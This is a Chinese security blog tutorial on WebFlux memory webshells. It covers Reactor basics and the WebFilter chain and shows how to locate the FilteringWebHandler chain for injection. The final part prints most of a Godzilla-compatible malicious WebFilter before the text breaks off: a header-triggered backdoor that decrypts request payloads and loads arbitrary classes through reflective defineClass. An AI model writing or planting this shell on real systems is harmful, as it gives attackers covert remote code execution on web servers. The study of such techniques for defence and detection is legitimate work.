# Java内存马篇——WebFlux型-先知社区

> **来源**: https://xz.aliyun.com/news/18404  
> **文章ID**: 18404

---

# 前言

WebFlux 是 Spring Framework 5 引入的响应式 Web 框架，旨在构建非阻塞、异步、高并发的 Web 应用程序。它基于 Reactive Streams 规范，通过 Reactor 库实现响应式编程模型。传统 Spring MVC 基于 Servlet 的同步阻塞模型，每个请求占用一个线程；而 WebFlux 采用事件驱动模型，通过少量线程处理大量请求，减少线程阻塞和资源浪费

# WebFluxDemo

先来写个demo了解一些WebFlux的基本构成。





其实和SpringMVC比较类似，下面是一个小Demo

```
package cmisl.webfluxmemoryshell.controller;  
  
import cmisl.webfluxmemoryshell.model.Message;  
import org.springframework.web.bind.annotation.*;  
import reactor.core.publisher.Flux;  
import reactor.core.publisher.Mono;  
  
@RestController  
@RequestMapping("/api/messages")  
public class MessageController {  
  
    // 返回单个元素的异步响应  
    @GetMapping("/{id}")  
    public Mono<Message> getMessageById(@PathVariable String id) {  
        return Mono.just(new Message(id, "Hello from WebFlux!"));  
    }  
  
    // 返回流式数据  
    @GetMapping  
    public Flux<Message> getAllMessages() {  
        return Flux.just(  
                new Message("1", "First message"),  
                new Message("2", "Second message"),  
                new Message("3", "Third message")  
        );  
    }  
  
    // 处理POST请求  
    @PostMapping  
    public Mono<String> createMessage(@RequestBody Message message) {  
        return Mono.just("Message created: " + message.getContent());  
    }  
}
```

```
package cmisl.webfluxmemoryshell.model;  
  
public class Message {  
    private String id;  
    private String content;  
  
    public Message() {} // 无参构造  
  
    public Message(String id, String content) {  
        this.id = id;  
        this.content = content;  
    }  
  
    public String getContent() {  
        return content;  
    }  
  
    public void setContent(String content) {  
        this.content = content;  
    }  
  
    public String getId() {  
        return id;  
    }  
  
    public void setId(String id) {  
        this.id = id;  
    }  
}
```





# 基础知识

## 发布——订阅模式

一种软件架构设计模式，用于解耦生产者(发布者)和消费者(订阅者)之间的关系，使得系统可以灵活应对高并发、异步处理和动态扩展。

下面是该模型下的一些基本概念。

* **发布者（Publisher）**：生成消息但不指定接收者，仅将消息发布到特定主题（Topic）。例如，电商系统中订单创建后发布“订单已支付”事件。
* **订阅者（Subscriber）**：通过订阅感兴趣的主题接收消息。例如，库存服务订阅“订单已支付”事件以扣减库存。
* **消息代理（Message Broker）**：作为中间枢纽，负责接收、存储和路由消息。例如 RabbitMQ 的 Exchange 和 Kafka 的 Topic 机制

交互流程也比较简单，发布者将消息发送到消息代理中，代理根据主题或者内容的过滤规则将消息路由到匹配的订阅者。订阅者则通过异步的方式接收消息，无需与发布者直接交互。

```
[发布者] → [消息代理] → [订阅者]
    │           │
    └── 发布消息  └── 订阅兴趣
```

## Mono和Flux

从上面的一个Demo中，会发现控制器的返回类型是Mono<T>或Flux<T>。

WebFlux主要基于响应式编程框架 Reactor的，而Mono 和 Flux 正是 Reactor 中的核心类型，分别代表 **0/1 个元素**和 **0/N 个元素**的异步数据流。两者均是Publisher的实现。

### **Mono：单一结果或空值的异步容器**

**定义与特性**  
Mono 表示一个可能包含 **0 或 1 个元素** 的异步序列，或仅发出完成/错误信号。其底层实现基于 Reactive Streams 规范的 Publisher 接口，但通过语义约束明确单值特性。例如，数据库查询单条记录、HTTP 请求响应等场景天然适配 Mono。  
**核心逻辑**：Mono 的生命周期仅有一次数据发射机会，无论成功（一个元素）、空（无元素）或失败（错误）。这种设计使其在需要明确结果边界的场景中高效且直观。

**应用场景**

* **单次 I/O 操作**：如 WebClient 发起的 HTTP GET 请求，返回单个 JSON 对象。

```
Mono<User> user = webClient.get()
    .uri("/users/1")
    .retrieve()
    .bodyToMono(User.class);
```

* **数据库查询**：通过 Spring Data R2DBC 执行 SELECT 语句获取单条记录。



### **Flux：多元素流式处理的通用容器**

**定义与特性**  
Flux 表示一个可能包含 **0 到 N 个元素** 的异步序列，支持无限流。其设计目标是处理批量数据、实时事件流或持续数据管道。例如，分页查询结果、Kafka 消息流或传感器实时数据均适合用 Flux 表达。  
**核心逻辑**：Flux 允许动态发射多个元素，并通过背压机制协调生产与消费速率。其生命周期包含多次数据发射、中间转换及最终完成或错误信号。

**应用场景**

* **批量数据处理**：如从数据库批量读取记录并逐条转换。

```
Flux<User> users = Flux.range(1, 100)
    .flatMap(id -> userRepository.findById(id));
```



# WebFlux中的Filter

Spring WebFlux 没有监听器Listener和拦截器interceptor，但是任然存在Filter用于拦截请求并做处理。WebFlux的Filter 可分为 WebFilter 和 HandlerFilterFunction 两类。

## WebFilter

下面是一个Spring WebFlux WebFilter的demo。

```
package cmisl.webfluxmemoryshell.filter;  
  
import org.springframework.core.annotation.Order;  
import org.springframework.stereotype.Component;  
import org.springframework.web.server.ServerWebExchange;  
import org.springframework.web.server.WebFilter;  
import org.springframework.web.server.WebFilterChain;  
import reactor.core.publisher.Mono;  
import java.time.Duration;  
import java.time.Instant;  
  
@Component  
@Order(1) // 过滤器执行顺序（数值越小优先级越高）  
public class RequestLogFilter implements WebFilter {  
  
    @Override  
    public Mono<Void> filter(ServerWebExchange exchange, WebFilterChain chain) {  
        Instant startTime = Instant.now();  
        String path = exchange.getRequest().getPath().value();  
  
        return chain.filter(exchange)  
                .doOnSuccess(aVoid -> {  
                    Duration duration = Duration.between(startTime, Instant.now());  
                    System.out.println("Request processed: " + path + " | Time taken: " + duration.toMillis() + "ms");  
                });  
    }  
}
```

启动后访问控制器中的接口。



在过滤器中打上断点然后再次访问，可以看到过滤器存在在一个DefaultWebFilterChain中。



有点类似tomcat的filter的责任链机制，调用chain的filter方法，然后会走到invokeFilter中去调用链中过滤器的filter方法，过滤器的filter正在return的时候会再次走到chain的filter方法，然后依次调用过滤器的filter方法。



DefaultWebFilterChain类存在三个构造方法，其中一个被@Deprecated注解标记表示已弃用，那不管他，剩下两个打上断点，重新调试启动项目。

这里是进入到公有的构造函数，实际上这里构造完之后的是一个递归链的结构，每个DefaultWebFilterChain实例持有当前过滤器（currentFilter）和剩余链（chain），形成递归式的链式调用关系。

不过从上层角度看，只需要调用公有构造函数，传入过滤器的数组就可以生成过滤器链。



往上追溯哪里生成过滤器链的话，就会到FilteringWebHandler这个类中，直接调用公有构造函数生成过滤器链，然后将链赋值给chain属性。因此暂且有了一个构造内存马的大致思路，制作一个恶意WebFilter，然后在调用DefaultWebFilterChain公有构造函数的时候，将恶意WebFilter作为参数一部分传入，随后将这个过滤器链赋值给FilteringWebHandler实例的chain属性中。

至于新增过滤器的思路，上诉也提到过这是一个递归链结构。每个DefaultWebFilterChain实例持有当前过滤器（currentFilter）和剩余链（chain）。想要新增一个过滤器进去可不只是修改一个allFilters变量这么简单。如果新增的话可以考虑新增一个DefaultWebFilterChain实例到递归连中一个节点的chain属性上。



调用公有构造函数构造DefaultWebFilterChain的参数，一个是handler，一个是filters，也就是所有过滤器的一个列表。获取起来并不困难，都是chain中可以找到的。



那么接下来就是需要寻找FilteringWebHandler类中的chain属性，也就是DefaultWebFilterChain这个实例了。这里可以用到c0ny1师傅的一个工具：**c0ny1/java-object-searcher: java内存对象搜索辅助工具[https://github.com/c0ny1/java-object-searcher]**，该工具可以方便我们定位想要的对象处于在哪个位置。

因此用该工具去寻找我们自定义的过滤器也好，或者直接找DefaultWebFilterChain实例也好，都是可行的。

我这里新定义一个Filter来查找。

```
package cmisl.webfluxmemoryshell.filter;  
  
import me.gv7.tools.josearcher.entity.Blacklist;  
import me.gv7.tools.josearcher.entity.Keyword;  
import me.gv7.tools.josearcher.searcher.SearchRequstByBFS;  
import org.springframework.core.annotation.Order;  
import org.springframework.stereotype.Component;  
import org.springframework.web.server.ServerWebExchange;  
import org.springframework.web.server.WebFilter;  
import org.springframework.web.server.WebFilterChain;  
import reactor.core.publisher.Mono;  
import java.time.Duration;  
import java.time.Instant;  
import java.util.ArrayList;  
import java.util.List;  
  
@Component  
@Order(2) // 过滤器执行顺序（数值越小优先级越高）  
public class SearchFilter implements WebFilter {  
  
    @Override  
    public Mono<Void> filter(ServerWebExchange exchange, WebFilterChain chain) {  
        List<Keyword> keys = new ArrayList<>();  
        keys.add(new Keyword.Builder().setField_type("SearchFilter").build());  
        List<Blacklist> blacklists = new ArrayList<>();  
        blacklists.add(new Blacklist.Builder().setField_type("java.io.File").build());  
        SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);  
        searcher.setBlacklists(blacklists);  
        searcher.setIs_debug(true);  
        searcher.setMax_search_depth(15);  
        searcher.setReport_save_path("E:\");  
        searcher.searchObject();  
        return chain.filter(exchange);  
    }  
}
```

结果在指定的目录下

```
TargetObject = {reactor.netty.resources.DefaultLoopResources$EventLoop} 
   ---> group = {java.lang.ThreadGroup} 
    ---> threads = {class [Ljava.lang.Thread;} 
     ---> [3] = {org.springframework.boot.web.embedded.netty.NettyWebServer$1} 
      ---> this$0 = {org.springframework.boot.web.embedded.netty.NettyWebServer} 
       ---> handler = {org.springframework.http.server.reactive.ReactorHttpHandlerAdapter} 
        ---> httpHandler = {org.springframework.boot.web.reactive.context.WebServerManager$DelayedInitializationHttpHandler} 
         ---> delegate = {org.springframework.web.server.adapter.HttpWebHandlerAdapter} 
          ---> delegate = {org.springframework.web.server.handler.ExceptionHandlingWebHandler} 
            ---> delegate = {org.springframework.web.server.handler.FilteringWebHandler} 
             ---> chain = {org.springframework.web.server.handler.DefaultWebFilterChain} 
              ---> allFilters = {java.util.List<org.springframework.web.server.WebFilter>} 
               ---> [1] = {cmisl.webfluxmemoryshell.filter.SearchFilter}
```

到此为止可以宣布完成了，由于最近项目就是经常要看哥斯拉源码，下面直接编写哥斯拉的Shell了。先写个恶意WebFilter

```
package cmisl.webfluxmemoryshell.filter;  
  
import org.springframework.core.annotation.Order;  
import org.springframework.core.io.buffer.DefaultDataBuffer;  
import org.springframework.core.io.buffer.DefaultDataBufferFactory;  
import org.springframework.http.HttpHeaders;  
import org.springframework.stereotype.Component;  
import org.springframework.web.server.ServerWebExchange;  
import org.springframework.web.server.WebFilter;  
import org.springframework.web.server.WebFilterChain;  
import reactor.core.publisher.Mono;  
  
import javax.crypto.Cipher;  
import javax.crypto.spec.SecretKeySpec;  
import java.io.ByteArrayOutputStream;  
import java.lang.reflect.Method;  
import java.math.BigInteger;  
import java.net.URL;  
import java.net.URLClassLoader;  
import java.nio.charset.StandardCharsets;  
import java.security.MessageDigest;  
import java.util.HashMap;  
import java.util.Map;  
  
  
@Component  
@Order(3)   
public class EvilFilter implements WebFilter {  
    public static Map<String, Object> store = new HashMap();  
    String xc = "082e34fbef497bb1"; // key  
    String pass = "cmisl";  
    public String headerName = "cmisl";  
    public String headerValue = "cmisl";  
  
    String md5 = md5(pass + xc);  
    Class payload;  
  
  
    private static Class defineClass(byte[] classbytes) throws Exception {  
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[0], Thread.currentThread().getContextClassLoader());  
        Method method = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);  
        method.setAccessible(true);  
        return (Class) method.invoke(urlClassLoader, classbytes, 0, classbytes.length);  
    }  
  
    public byte[] x(byte[] s, boolean m) {  
        try {  
            Cipher c = Cipher.getInstance("AES");  
            c.init(m ? 1 : 2, new SecretKeySpec(xc.getBytes(), "AES"));  
            return c.doFinal(s);  
        } catch (Exception e) {  
            return null;  
        }  
    }  
  
    public static String md5(String s) {  
        String ret = null;  
        try {  
            MessageDigest m;  
            m = MessageDigest.getInstance("MD5");  
            m.update(s.getBytes(), 0, s.length());  
            ret = new BigInteger(1, m.digest()).toString(16).toUpperCase();  
        } catch (Exception e) {  
        }  
        return ret;  
    }  
  
    public static String base64Encode(byte[] bs) throws Exception {  
        Class base64;  
        String value = null;  
        try {  
            base64 = Class.forName("java.util.Base64");  
            Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);  
            value = (String) Encoder.getClass().getMethod("encodeToString", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});  
        } catch (Exception e) {  
            try {  
                base64 = Class.forName("sun.misc.BASE64Encoder");  
                Object Encoder = base64.newInstance();  
                value = (String) Encoder.getClass().getMethod("encode", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});  
            } catch (Exception e2) {  
            }  
        }  
        return value;  
    }  
  
    public static byte[] base64Decode(String bs) throws Exception {  
        Class base64;  
        byte[] value = null;  
        try {  
            base64 = Class.forName("java.util.Base64");  
            Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);  
            value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(decoder, new Object[]{bs});  
        } catch (Exception e) {  
            try {  
                base64 = Class.forName("sun.misc.BASE64Decoder");  
                Object decoder = base64.newInstance();  
                value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{bs});  
            } catch (Exception e2) {  
            }  
        }  
        return value;  
    }  
  
    @Override  
    public Mono<Void> filter(ServerWebExchange exchange, WebFilterChain chain) {  
        HttpHeaders headers = exchange.getRequest().getHeaders();  
        String userAgent = headers.getFirst("cmisl");  
        Object bufferStream = null;  
        if (headers.getFirst(this.headerName) != null && headers.getFirst(this.headerName).contains(this.headerValue)) {  
  
            bufferStream = exchange.getFormData().flatMap(c -> {  
                StringBuilder result = new StringBuilder();  
                try {  
                    String id = c.getFirst(pass);  
                    byte[] data = x(base64Decode(id), false);  
                    if (store.get("payload") == null) {  
                        store.put("payload", defineClass(data));  
                    } else {  
                        store.put("parameters", data);  
